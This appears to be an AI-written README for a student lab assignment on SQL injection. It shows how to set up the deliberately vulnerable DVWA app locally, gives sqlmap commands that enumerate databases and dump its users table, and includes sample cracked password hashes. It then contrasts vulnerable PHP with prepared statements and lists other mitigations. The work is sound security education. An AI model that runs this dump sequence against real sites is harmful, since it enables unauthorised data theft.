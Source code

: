 Sure! Here's a professional and clear **README.md** that you can include with your project. It contains:

- Full steps
- Highlights of the requirements from the original problem
- Output and usage details
- Security recommendations  
- Everything formatted nicely for a `README.md` file

---

```markdown
# 🔐 SQL Injection Exploitation & Mitigation Project

### 🎯 **b) Exploit and Secure a SQL Injection Vulnerability (10 Marks)**

---

## 📌 Overview

This project demonstrates how to **exploit** a vulnerable web application (DVWA) using **SQLMap**, extract sensitive data from its database, and apply **secure coding practices** to prevent such attacks in real-world scenarios.

---

## 🧰 Tools Used

- ✅ SQLMap (automated SQL injection tool)
- ✅ Python (for automation)
- ✅ DVWA (Damn Vulnerable Web App - testbed)
- ✅ Docker (to run DVWA locally)

---

## ✅ TASK CHECKLIST

✔️ Use SQLMap to exploit a test website  
✔️ Extract data from the database  
✔️ Apply secure coding practices to prevent SQL injection  
✔️ Provide step-by-step execution, extracted data, and security measures  

---

## ⚙️ Step 1: Setup DVWA Locally (Test Target)

### 🔧 Requirements

- Docker
- Docker Compose
- Git

### 🛠️ Commands

```bash
git clone https://github.com/digininja/DVWA.git
cd DVWA
```

Create a `docker-compose.yml`:

```yaml
services:
  dvwa:
    image: vulnerables/web-dvwa
    ports:
      - "8080:80"
    restart: always
```

Start DVWA:

```bash
docker-compose up -d
```

Login at [http://localhost:8080](http://localhost:8080)  
- Username: `admin`  
- Password: `password`  
- Set **Security Level** to **Low**

---

## 🐍 Step 2: Exploit SQL Injection Using Python + SQLMap

### 🔑 Prerequisites

- Ensure `sqlmap` is installed (`pip install sqlmap` or `pacman -S sqlmap`)
- Copy your browser cookies (`PHPSESSID`, `security=low`)

### 🚀 Run Exploit Script

```bash
python3 sqlmap_automation.py
```

### 📄 What It Does (Automated):

```bash
# Step 1: List all databases
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="..." --dbs

# Step 2: List tables in 'dvwa'
sqlmap -u "..." -D dvwa --tables --cookie="..."

# Step 3: Dump data from 'users' table
sqlmap -u "..." -D dvwa -T users --dump --cookie="..."
```

### 📂 Output Location

All extracted files (CSV, logs, dump) will be saved in:

```
./sqlmap_output/localhost/dump/dvwa/users.csv
```

### 📊 Extracted Data (Sample)

| user_id | user    | password (hashed)                          |
|---------|---------|--------------------------------------------|
| 1       | admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| 2       | gordonb | e99a18c428cb38d5f260853678922e03 (abc123)  |
| ...     | ...     | ...                                        |

---

## 🛡️ Step 3: Apply Secure Coding Techniques

### ❌ Vulnerable Code Example (PHP):

```php
$id = $_GET['id'];
$query = "SELECT * FROM users WHERE id = '$id'";
```

### ✅ Secure Code with Prepared Statement:

```php
$id = $_GET['id'];
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
$stmt->execute([$id]);
```

### 🔐 Other Mitigations

- Use **ORMs** like SQLAlchemy or Django ORM
- Validate and sanitize all user inputs
- Use least privilege DB accounts
- Log and monitor SQL errors or anomalies

---